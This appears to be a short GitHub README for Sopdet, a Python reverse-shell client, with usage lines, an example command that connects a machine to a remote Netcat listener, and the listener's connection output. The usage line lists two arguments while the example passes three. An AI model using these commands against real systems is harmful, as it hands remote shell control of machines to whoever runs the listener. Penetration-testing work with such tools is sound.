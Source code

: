# Sopdet
A simple cross-platform reverse shell written in Python

Sopdet is a client-side Python script that when run on a Linux/Unix or Windows system will open up a shell on a remote server running Netcat as a listener on the specified port.

## Usage:
`python sopdet.py <IP address> <port>`

## Example:

### Client-side

`$ python sopdet.py 192.168.0.2 4444 linux`

`[*] Sobdet client connected to 192.168.0.2`

### Server-side

`$ nc -lv 4444`

`Connection from 192.168.0.3 65095 received!`
